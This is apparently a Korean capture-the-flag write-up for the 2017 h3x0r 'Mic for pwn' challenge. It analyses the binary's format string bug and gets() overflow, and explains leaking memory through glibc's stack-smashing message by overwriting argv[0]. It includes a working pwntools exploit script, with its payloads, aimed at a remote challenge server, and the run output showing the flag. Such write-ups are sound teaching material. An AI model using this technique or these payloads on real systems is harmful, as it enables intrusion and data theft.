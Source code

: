 # 2017 h3x0r - [PWN] Mic for pwn

## Key words

- i386 | NX | SSP
- Format String Bug (FSB)
- Leak memory by SSP

## Solution

문제를 보면 몇 가지 의심 상황이 보입니다.

먼저 버그가 발생되는 지점은 다음과 같습니다.

```c
  fn_vul_80487F1((int)"Give me your name!\n");
  fgets(g_buf_0804a085, 13, stdin);
  fn_vul_80487F1((int)"If you want start, press enter\n");
  do
    v2 = getchar();
  while ( v2 != 10 && v2 != -1 );
  fn_vul_80487F1((int)"Your name is ");
  printf(g_buf_0804a085); # Format String Bug
```

일반적인 FSB 버그인데, 한 가지 제약사항은 단 한번만 가능하고 13바이트만 스트링으로 입력 할 수 있다는 점 입니다.

다음으로 프로그램 로직을 살펴 보면 처음에 `0x0804a050` 위치에 소지하고 있는 돈이 존재 하고, 사용자의 입력을 받아 1~10000 까지의 숫자를 맞추는 형식 입니다.

만약 소지하고 있는 금액이 99999를 넘게 되면 다음 로직으로 들어가게 됩니다.

```c
int fn_congratz_804885D()
{
  char s; // [sp+18h] [bp-20h]@1
  int v2; // [sp+2Ch] [bp-Ch]@1

  v2 = *MK_FP(__GS__, 20);
  fn_vul_80487F1((int)"For the save record,Give me the Comment!\n");
  fn_vul_80487F1((int)"Comment : \n");
  gets(&s);
  fn_vul_80487F1((int)"Save Successfully!\n");
  return *MK_FP(__GS__, 20) ^ v2;
}
```

`ebp-0x20` 변수에서 `gets`에 의해 버퍼 오버플로우가 발생하게 됩니다. 하지만 `SSP`가 걸려 있어 스택 버퍼 오버플로우를 시킬 수 없습니다.

마지막으로 프로그램 시작 시, 굉장히 의심스러운 루틴으로 먼저 접근하게 됩니다.

```c
int sub_804870D()
{
  int v0; // ST4C_4@1
  FILE *v1; // ST14_4@1

  v0 = *MK_FP(__GS__, 20);
  v1 = fopen("flag", "r");
  __isoc99_fscanf(v1, "%s", &unk_804A0A0);
  setenv("LIBC_FATAL_STDERR_", "1", 0);
  return *MK_FP(__GS__, 20) ^ v0;
}
```

이 루틴은 처음에 시작하는데 `xref`를 찾아봐도 없길래 동적 디버깅해서 따라가본 결과 `Main`이 실행되기 전에 다음과 같이 동적 호출에 의해 플래그를 `0x0804a0a0`에 넣는 루틴을 타게 됩니다.

```
.text:080486F2                 push    ebp
.text:080486F3                 mov     ebp, esp
.text:080486F5                 sub     esp, 18h
.text:080486F8                 mov     [esp+1Ch+var_1C], offset dword_8049F10
.text:080486FF                 call    eax
```

총합 해보면 다음과 같습니다.
- 프로그램 시작 시 `0x0804a0a0` 위치에 플래그를 저장
- 프로그램에는 한 번의 13바이트 FSB 기회가 존재
- `0x0804a050`의 값이 99999를 넘게 되면 버퍼 오버플로우 버그가 존재하는 함수를 호출

결론적으로, SSP의 Stack Smashing 에러 메시지를 이용하여 `0x0804a0a0`를 출력하면 됩니다.

SSP에 의해 메모리 노출되는 시나리오에 대한 내용은 해당 루틴을 조금만 따라 가보면 다음과 같음을 알 수 있습니다.

먼저, 스택 버퍼 오버플로우에 의해 스택 카나리가 깨지고 결국 `call <__stack_chk_fail@plt>` 을 하게 됩니다.

`__stack_chk_fail`은 GNU C Library에서 찾을 수 있으며 위치는 `debug/stack_chk_fail.c`에 구현이 존재합니다.

```c
#include <stdio.h>
#include <stdlib.h>

extern char **__libc_argv attribute_hidden;

void
__attribute__ ((noreturn))
__stack_chk_fail (void)
{
  __fortify_fail ("stack smashing detected");
}
```

`__fortify_fail`을 조금 더 따라 가보면 다음과 같습니다.

```c
#include <stdio.h>
#include <stdlib.h>

extern char **__libc_argv attribute_hidden;

void
__attribute__ ((noreturn))
__fortify_fail (msg)
     const char *msg;
{
  /* The loop is added only to keep gcc happy.  */
  while (1)
    __libc_message (2, "*** %s ***: %s terminated\n",
                    msg, __libc_argv[0] ?: "<unknown>");
}
libc_hidden_def (__fortify_fail)
```

우리가 일반적으로 SSP를 위반했을 때 발생되는 메시지가 보이네요. 중요한점은 terminate의 메시지가 argv[0]을 쓴다는 점 입니다.

이를 이용하여 한 번의 메모리 노출 기회로 우리가 원하는 행위를 할 수 있는 경우, SSP 로직의 이 부분을 이용하여 공격을 할 수가 있습니다.

이 문제는 위의 조건에 만족하기 때문에 다음과 같은 시나리오를 생각해봅니다.

- FSB를 이용하여 사용자 소지금을 99999이상 설정
- `congratz` 함수에서 버퍼 오버플로우를 이용하여 스택을 메인 방향으로 계속 `0x0804a0a0`를 덮어 씀
- 메인의 인자 argv[0] 까지 정상적으로 덮히게 되면 `congratz`함수가 끝날 때 스택 카나리를 확인하게 되고 위의 abort 메시지 출력 루틴을 타게 되면서 argv[0] = `0x0804a0a0`를 출력하게 됨

현재 스택에서 소지금의 위치가 얼마나 떨어져 있는지 찾기 위해 동적으로 디버깅하여 포멧 스트링의 위치와 소지금의 위치에 대한 오프셋을 계산하였고, 그 뒤에 `0x0804a0a0`를 스프레잉 하여 플래그를 얻었습니다.

## Exploit code
```python
from pwn import *
context(arch="i386", os="linux")

server = "52.25.103.221"
port = 9003

r = remote(server, port)
#r = process("./mic_for_pwn")

print r.recv()
payload = "%100000c%6$n"

r.send(payload + "\x0a")
for i in xrange(30): print r.recv()

addr_flag = 0x0804a0a0
payload = p32(addr_flag) * 0x100
r.send(payload + "\x0a")

print r.recv()
r.interactive()
```

## Result
```
hackability@ubuntu:~/ctf/pwnable/0011_2017_h3x0r_MicForPwn$ python sol_mic.py
[+] Opening connection to 52.25.103.221 on port 9003: Done
==========Welcome to my Game==========

| You have to guess a correct number |
| Rule is easy, get a 100 thousand!  |
| Now game is start, plz  enjoy it!  |
======================================
Give me your name!

If you want start, press enter

...<snip>...

Your money is 100000
Congratulation!
For the save record,Give me the Comment!
Comment :
Save Successfully!
*** stack smashing detected ***: H3X0R{s1mp1e_ssp_le4k_w1th_overwri77en_ct0r} terminated
[*] Got EOF while reading in interactive
```
